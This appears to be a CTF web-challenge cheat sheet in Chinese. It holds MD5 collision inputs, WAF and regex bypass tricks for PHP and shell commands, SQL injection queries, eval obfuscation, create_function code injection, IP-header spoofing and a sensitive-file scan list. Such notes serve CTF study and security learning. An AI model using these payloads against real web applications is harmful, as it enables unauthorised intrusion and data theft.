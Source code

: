 # MD5强比较

```
if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){  
    echo $flag;  
}

```
https://marc-stevens.nl/research/md5-1block-collision/
```
(URL编码)
a = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

b = %4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

md5 = 008ee33a9d58b51cfeb425b0959121c9
```
```
https://www.mscs.dal.ca/~selinger/md5collision/

(Raw Hex,需要->From Hex->URL编码)
a = d131dd02c5e6eec4693d9a0698aff95c2fcab58712467eab4004583eb8fb7f8955ad340609f4b30283e488832571415a085125e8f7cdc99fd91dbdf280373c5bd8823e3156348f5bae6dacd436c919c6dd53e2b487da03fd02396306d248cda0e99f33420f577ee8ce54b67080a80d1ec69821bcb6a8839396f9652b6ff72a70

b = d131dd02c5e6eec4693d9a0698aff95c2fcab50712467eab4004583eb8fb7f8955ad340609f4b30283e4888325f1415a085125e8f7cdc99fd91dbd7280373c5bd8823e3156348f5bae6dacd436c919c6dd53e23487da03fd02396306d248cda0e99f33420f577ee8ce54b67080280d1ec69821bcb6a8839396f965ab6ff72a70

md5 = 79054025255fb1a26e4bc422aef54eb4
```
或直接传入数组`param1[]=1&param2[]=2`
弱比较：
QNKCDZO和s878926199a
# WebShell文件读取
ls bash tac nl more less head wget tail vi cat od grep sed bzmore bzless pcre paste diff file echo sh sort



Linux将反斜杠`\`视为换行符，于是可以在Shell任意添加反斜杠以绕过正则匹配（例如`l\s\ -la`）


POST传参传递`\xff`之类的字节时，选择`application/x-www-form-urlencoded`时，`HackBar`会报错`URI malformed`；选择`application/x-www-form-urlencoded(raw)`时，HTTP数据包最后的`\r`将会被后端识别为一个字符。

BurpSuite抓不到`localhost`，只能抓到`127.0.0.1`

# [suctf 2019]EasySQL
`show databases;`
`show tables;`
`show columns from Flag`

PHP的传参
`index.php?num=123`等价于`$_GET['num']`
`index.php? num=123`等价于`$_GET['num']`，可绕过WAF
`index.php?n um=123`等价于`$_GET['n_um']`
`index.php?num =123`等价于`$_GET['num_']`


scandir():列出参数目录中的文件和目录  
readfile():读取文件内容

Response Head、HTML注释都能藏东西

gopher|http|file|ftp|https|dict

备份文件`index.php.swp`


Shell绕过
eval()
取反，例如过滤`[A-Za-z0-9]+`，要执行`phpinfo()`，可以`(~%8F%97%8F%96%91%99%90)();`

防范措施
`php.ini`配置`disabled_functions`参数，禁止`exec()`、`eval()`等函数的运行

扫目录：flag.php robots.txt www.tar.gz login.php register.php config.php source.zip index.php.swp www.zip example.php /secret
[16:04:39] 200 - 174B - /.idea/misc.xml  
[16:04:39] 200 - 296B - /.idea/modules.xml  
[16:04:40] 200 - 19KB - /.idea/workspace.xml

Mysql更改数据库名、表名、列名的rename table语句，把flag表改为PHP要查的表，从而绕过select、union、and、or
tac命令可以后接通配符`?`，例如`tac /flag`可以写成`tac /fla?`，以绕过正则匹配

/search.php?id=elt(length(database())>1,6) 新型盲注，可以绕`^`

SQL的WAF：'blob', 'load_extension', 'char', 'unicode', '(in|sub)str', '[lr]trim', 'like', 'glob', 'match', 'regexp', 'in', 'limit', 'order', 'union', 'join'

show databases
show tables
show columns from 表名

SQL怎么用alter和rename更改表名和列名
order by与group by都可以爆列数

PHP伪协议：
data://text/plain/, ..........当作文件读取
GET时读取php://input路径，会读取POST中的内容，记得改ContentLength响应头。（最好的方式是以POST发送，然后抓包手动把POST改成GET，修改ContentLength，POST区必须用空格，不能用`%20`）

正则表达式e模式？？？

如果`$a($b)`阻止`$a = 'phpinfo'`，则如何执行？答：`assert(phpinfo())`或`call_user_func(phpinfo)`

.stm .shtm .shtml文件是干什么的？好像可以SSI注入？

`?code=(~%8f%97%8f%96%91%99%90)();`,`@eval($code)`，但是过滤所有字母和数字。`~`不能放在括号外。

改IP：X-Forward-For  Client-IP X-Real-IP

Mysql字符串截取：left()、mid()、right()、substr()、substring()、substring_index()、reverse()

若`$a`、`$b`可控，面对注入点`$a('', $b);`，根据形参个数与位置马上联想到`$a=create_function`。PHP实验`create_function($args,$code)`的原理如下：
```php
eval('
	function 随机函数名($args){
		$code
	}
'}
return 随机函数名
```
利用这一点，我们可以令`$code=}......//`闭合花括号，执行恶意payload`......`，再用`//`把最后的花括号注释掉。

`preg_match('/^[0-9a-zA-Z]*$/i',$str)`可以用`%0a`多行绕过，或者中间插入一个`_`绕过

phpinfo()里面的`auto_prepend_file`